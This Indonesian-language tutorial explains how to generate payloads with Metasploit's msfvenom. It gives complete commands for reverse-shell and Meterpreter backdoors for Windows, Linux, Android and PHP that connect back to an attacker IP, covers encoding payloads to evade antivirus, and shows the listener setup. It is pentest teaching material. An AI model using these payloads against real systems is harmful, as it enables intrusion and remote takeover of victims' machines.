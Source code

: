 # Membuat Payload dengan MSFvenom

## A. Apa Itu MSFvenom?

`msfvenom` adalah tool bawaan dari Metasploit yang digunakan untuk:
- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`).
- Meng-encode payload untuk menghindari antivirus.
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`).

## B. Struktur Dasar Perintah MSFvenom:

```
msfvenom -p <PAYLOAD> LHOST=<IP_ATTACKER> LPORT=<PORT_LISTENER> -f <FORMAT_OUTPUT> -o <NAMA_FILE>
```

**Keterangan**:

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

### 1. Payload Reverse TCP:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
   ```

   Output: `shell.exe` (bisa dijalankan di sistem Windows).

### 2. Payload Dilengkapi Encoder:
  
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
   ```

   Encoding `5 kali` untuk menghindari deteksi AV.

## D. Contoh Payload Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux.

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia:

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)

**Contoh Payload PHP:**

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

**Contoh:**

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
run
```

## Tips Tambahan

- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.
